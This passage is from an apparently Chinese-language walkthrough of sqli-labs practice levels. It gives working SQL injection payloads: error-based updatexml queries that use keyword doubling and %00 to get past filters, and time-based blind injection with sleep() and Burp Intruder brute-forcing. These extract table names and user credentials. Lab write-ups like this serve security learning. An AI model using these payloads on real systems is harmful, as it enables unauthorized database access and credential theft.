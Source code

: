 12、Less-19
和关卡18类似，注入点在referer

13、Less-20
和关卡18类似，注入点在cookie

14、Less-26
(1)根据提示输入`?id=1`，用户名和密码显示正常，添加单引号`'`，提示语法错误，说明单引号被拼接到后台SQL查询语句，添加--+注释发现依旧报错，猜测对--+进行了过滤。
![less-26.1][34]
![less-26.2][35]
(2)使用`'`闭合，对于注释/结尾字符，用`;%00`作为结尾
![less-26.3][36]
(3)使用order by，页面报错显示or被过滤，使用双写、空格、注释等多次尝试，发现空格，or，and,/*,#,–,/等符号都被过滤。直接采用报错注入方式。
![less-26.4][37]
(4)爆库名：构造payload为`?id=1' aandnd(updatexml(1,concat(0x23,database(),0x23),1));%00`，使用双写避免and被过滤，windows上的apache对空格编码的转义有问题，需要使用()绕过空格
![less-26.5][38]
(5)爆表名：构造payload为：`?id=1' || updatexml(1, concat(0x7e, (select (group_concat(table_name)) from (infoorrmation_schema.tables) where (table_schema=database()))) ,1)  || '1'='1`，其中由于information存在or，需要双写。
![less-26.6][39]
(6)爆列名：与爆表名类似，构造payload为：`id=1' || updatexml(1, concat(0x7e, (select (group_concat(column_name)) from (infoorrmation_schema.columns) where (table_name='users'))) ,1)  || '1'='1`
![less-26.7][40]
(7)爆记录：构造payload为将用户名和密码从users表中回显：`id=1' || updatexml(1, concat(0x23, (select (group_concat(  concat_ws(0x7e,username, passwoorrd)  )) from (users))) ,1)  || '1'='1`
![less-26.8][41]
也可以使用`id=1' || updatexml(1, concat(0x7e, (select (group_concat( concat_ws(0x7e,username,passwoorrd))) from (users) where(id=num))) ,1)  || '1'='1`，通过改变id的值单个记录显示
![less-26.9][42]
15、Less-64
(1)构造`id=1'`，页面没有显示用户信息也没有SQL语句语法报错，则添加--+注释，对id=1'、id=1"、id=1')、id=")、id=1))等依次尝试，当`id=))--+`时页面返回id=1的用户信息
![less-64.1][43]
(2)构造`id=1)) order by num--+`，num从1开始递增，当num为3时页面正常，num为4时无显示，说明数据有3列
![less-64.2][44]
(3)使用联合查询找注入点，结果不可行
![less-64.3][45]
(4)使用时间注入方式判断，payload为`id=1)) and sleep(3)--+`，有延迟，进行时间注入
(5)数据库名长度：构造payload为`id=1)) and if(length(database())=8,1,sleep(2))--+`，页面返回正确且较快，当长度为7和9时都有延迟，说明数据库名长度为8
![less-64.4][46]
(6)构造payload：`id=1)) and if(left(database(),1)='s' , sleep(3), 1) --+`，页面返回正确且较快，当为其他的字母时有延迟。通过改变`left(database(),num)`中num的大小以及匹配的字符，将数据库名得出
![less-64.5][47]
(7)由于手动一次次尝试较为麻烦，可以使用burpsuit进行爆破，url中payload为`id=1))and if(left(database(),1)='s' , sleep(1), 1) --+`，使用burp抓包，将数据发送给intruder，清除原有变量，重新选定变量为第num个字符和字符，配置有效载荷进行爆破。但是由于Less-64只提供130次尝试，所以有限制。
![less-64.6][48]
![less-64.7][49]
(8)数据库名：构造payload：`id=1))and if(left(database(),8)='security' , sleep(2), 1) --+`，页面返回正常且较快则说明数据库名为security
(9)爆表：构造payload：`id=1)) and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(2))--+`，和数据库名的爆破相同，仅需修改substr的第二个参数值和设定的字符。
(10)爆列：构造payload为：`id =1)) and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',1,sleep(2))--+`，修改substr的第二个参数值和设定的字符。

  [1]: https://blog.csdn.net/qq_39670065/article/details/106762824?utm_medium=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-OPENSEARCH-1.control
  [2]: https://github.com/Audi-1/sqli-labs
  [3]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.1.png
  [4]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.2.png
  [5]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.3.png
  [6]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.4.png
  [7]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.5.png
  [8]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.6.png
  [9]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.7.png
  [10]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.8.png
  [11]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.9.png
  [12]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.10.png
  [13]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-1.11.png
  [14]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.1.png
  [15]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.2.png
  [16]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.3.png
  [17]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.4.png
  [18]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.5.png
  [19]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.6.png
  [20]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.7.png
  [21]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-6.8.png
  [22]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.1.png
  [23]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.2.png
  [24]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-12.3.png
  [25]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.1.png
  [26]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.2.png
  [27]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.3.png
  [28]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.4.png
  [29]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.5.png
  [30]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.6.png
  [31]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.7.png
  [32]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.8.png
  [33]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-18.9.png
  [34]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.1.png
  [35]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.2.png
  [36]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.3.png
  [37]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.4.png
  [38]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.5.png
  [39]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.6.png
  [40]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.7.png
  [41]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.8.png
  [42]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-26.9.png
  [43]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.1.png
  [44]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.2.png
  [45]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.3.png
  [46]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.4.png
  [47]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.5.png
  [48]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.6.png
  [49]: https://cdn.jsdelivr.net/gh/etamsylate-pupu/Image-host/blogImg/sql-labs/less-64.7.png